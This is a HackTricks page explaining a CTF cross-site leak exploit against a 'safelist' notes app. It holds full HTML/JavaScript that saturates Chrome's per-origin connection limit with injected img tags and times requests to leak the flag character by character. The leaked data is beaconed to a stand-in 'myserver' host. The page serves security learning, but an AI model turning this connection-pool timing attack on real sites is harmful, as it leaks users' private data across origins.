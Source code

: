 # Connection Pool by Destination Example

<details>

<summary><strong>HackTricks in </strong><a href="https://twitter.com/carlospolopm"><strong>🐦 Twitter 🐦 - </strong></a><a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch</strong></a> <strong>Wed - 18.30(UTC) 🎙️ - </strong> <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the [hacktricks repo](https://github.com/carlospolop/hacktricks) and [hacktricks-cloud repo](https://github.com/carlospolop/hacktricks-cloud)**.

</details>

In [**this exploit**](https://gist.github.com/terjanq/0bc49a8ef52b0e896fca1ceb6ca6b00e#file-safelist-html), [**@terjanq**](https://twitter.com/terjanq) proposes yet another solution for the challenged mentioned in the following page:

{% content-ref url="connection-pool-by-destination-example.md" %}
[connection-pool-by-destination-example.md](connection-pool-by-destination-example.md)
{% endcontent-ref %}

Let's see how this exploit work:

* The attacker will inject a note with as many **`<img`** tags **loading** **`/js/purify.js`** as possible (more than 6 to block the origin).
* Then, the attacker will **remove** the **note** with index 1.
* Then, the attacker will \[make the **bot access the page** with the reminding note] and will send a **request** to **`victim.com/js/purify.js`** that he will **time**.&#x20;
  * If the time is **bigger**, the **injection** was in the **note** left, if the time is **lower**, the **flag** was in there.

{% hint style="info" %}
Tbh, reading the script I missed some part where the **attacker makes the bot load the page to trigger the img tags**, I don't see anything like that in the code
{% endhint %}

```html
<html>
    <head>
        <script>
            const SITE_URL = 'https://safelist.ctf.sekai.team/';
            const PING_URL = 'https://myserver';
            function timeScript(){
                return new Promise(resolve => {
                    var x = document.createElement('script');
                    x.src = 'https://safelist.ctf.sekai.team/js/purify.js?' + Math.random();
                    var start = Date.now();
                    x.onerror = () => {
                        console.log(`Time: ${Date.now() - start}`); //Time request
                        resolve(Date.now() - start);
                        x.remove();
                    }
                    document.body.appendChild(x);
                });
            }

            add_note = async (note) => {
                let x = document.createElement('form')
                x.action = SITE_URL + "create"
                x.method = "POST"
                x.target = "xxx"

                let i = document.createElement("input");
                i.type = "text"
                i.name = "text"
                i.value = note
                x.appendChild(i)
                document.body.appendChild(x)
                x.submit()
            }
            
            remove_note = async (note_id) => {
                let x = document.createElement('form')
                x.action = SITE_URL+"remove"
                x.method = "POST"
                x.target = "_blank"

                let i = document.createElement("input");
                i.type = "text"
                i.name = "index"
                i.value = note_id
                x.appendChild(i)
                document.body.appendChild(x)
                x.submit()
            }
            
            const sleep = ms => new Promise(resolve => setTimeout(resolve, ms));
            // }zyxwvutsrqponmlkjihgfedcba_
            const alphabet = 'zyxwvutsrqponmlkjihgfedcba_'
            var prefix = 'SEKAI{xsleakyay';
            const TIMEOUT = 500;
            async function checkLetter(letter){
                // Chrome puts a limit of 6 concurrent request to the same origin. We are creating a lot of images pointing to purify.js
                // Depending whether we found flag's letter it will either load the images or not.
                // With timing, we can detect whether Chrome is processing purify.js or not from our site and hence leak the flag char by char.
                const payload = `${prefix}${letter}` + Array.from(Array(78)).map((e,i)=>`<img/src=/js/purify.js?${i}>`).join('');
                await add_note(payload);
                await sleep(TIMEOUT);
                await timeScript();
                await remove_note(1); //Now, only the note with the flag or with the injection existsh
                await sleep(TIMEOUT);
                const time = await timeScript(); //Find out how much a request to the same origin takes
                navigator.sendBeacon(PING_URL, [letter,time]);
                if(time>100){
                    return 1;
                }
                return 0;
            }
            window.onload = async () => {
                navigator.sendBeacon(PING_URL, 'start');
                // doesnt work because we are removing flag after success.
                // while(1){
                    for(const letter of alphabet){
                        if(await checkLetter(letter)){
                            prefix += letter;
                            navigator.sendBeacon(PING_URL, prefix);
                            break;
                        }
                    }
                // }
            };            
            </script>            
    </head>
    <body>
    </body>
</html>

```

<details>

<summary><strong>HackTricks in </strong><a href="https://twitter.com/carlospolopm"><strong>🐦 Twitter 🐦 - </strong></a><a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch</strong></a> <strong>Wed - 18.30(UTC) 🎙️ - </strong> <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the [hacktricks repo](https://github.com/carlospolop/hacktricks) and [hacktricks-cloud repo](https://github.com/carlospolop/hacktricks-cloud)**.

</details>
